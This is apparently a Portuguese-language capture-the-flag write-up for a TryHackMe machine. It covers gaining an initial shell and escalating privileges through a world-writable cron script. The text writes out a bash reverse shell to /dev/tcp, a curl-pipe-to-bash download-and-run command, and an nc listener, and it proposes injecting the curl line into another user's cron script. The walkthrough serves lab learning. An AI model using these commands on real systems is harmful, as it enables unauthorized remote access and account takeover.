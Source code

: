 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## ⚠️ Obs: Desligar o antivírus

### 💡 A máquina parece ter o `curl`. Dá pra subir um arquivo shell usando um servidor Python, baixar com `curl`, executar e escutar a resposta do outro lado.

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)

### 📄 Conteúdo do arquivo `shell_2.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.100.168/4444 0>&1
```

### 🚀 Dentro dessa pasta, vamos subir o servidor Python para baixar com o curl:

![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### 🌐 No site, usamos o comando `curl` para baixar o arquivo e em seguida já executá-lo:

```bash
curl http://[IP]:[PORTA]/shell_2.sh | bash
```

![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### Confirmação : ::ffff:192.168.100.207 - - [21/May/2025 02:49:03] "GET /shell_2.sh HTTP/1.1" 200

### 📡 Em outro terminal, deixamos o listener pronto com:

```bash
nc -nlvp 4444
```

![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

---

### ✅ Shell recebido! Agora é hora de fazer pós-exploração e escalar privilégios.

#### Acesso à máquina com usuário `www-data`:

---

### 🗂️ Aqui estão todos os arquivos encontrados com fuzzing. Agora vamos explorá-los em busca de algo útil.
![image](https://github.com/user-attachments/assets/a200a374-0976-4250-b338-69ea9889edbb)
### Dentro da pasta `/opt`, encontramos um script `.sh` que é executado via cron a cada minuto:

![image](https://github.com/user-attachments/assets/854a11c4-a51e-4e55-85b3-e3faf37ec0c1)

### 🔍 Entendendo o que ocorre dentro do script:

![image](https://github.com/user-attachments/assets/a5f88153-c1f1-40fa-88f6-4e6f5c855d4d)

---

## Oque é preciso entender para escalar o previlegio:
```txt
  ### -rwxrwxrwx  1 user-swagger user-swagger  184 Jun  1  2023 script.sh
  
  Fazendo a analine desse arquivo podemos ver que ele deu um chmod 777 
  ,que dizer que todos como root , todos os grupos e convidados tem acesso 
  a escrita execução e leitura do arquivo .sh que é um indicio que é por 
  aqui o caminho , ainda por cima o dono do arquivo é o swagger
      
  Mas tem o problema de estarmos com o usuario wwwdata que é limitado para escalar  
  previlegio de root precisamos do arquivo que tem previlegios do usuario swagger
  que é literalmente este arquivo

  Para Conseguir entrar no user dele podemos usar o script que ele criou contra ele mesmo
  e colocar um shell reverse para entrar da nossa maquina no perfil de usuario dele


  Conclusão: se para conseguir acesso precisamos de uma interação com o swagger e ocorre no arquivo
  a cada um minuto como a analise do chat gpt disse.
  então mudamos o conteudo o arquivo colocamos outro shel reverse de usuario agora
  
  1. colocar o comando do shell reverse já usado (exito) , dentro do script.sh
  comando ( curl http://192.168.100.168:8000/shell_2.sh | bash )
  2. executar enquanto o outro terminal escuta a shell
  
  
```
>
![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
### por exemplo aqui se colocar-mos um bash dentro desse script.sh como nos colocamos com o usuario wwwdata , quando eu exe no arquivo vai me retornar como se fosse um shell reversa do propio usuario como na imagem acima , nao tem como eu elevar o nivel de usuario sendo que foi o propio usuario que adicionou o bash entao na teoria devemos colocar o bash dentro do script do swagger para conseguir o acesso dele
>
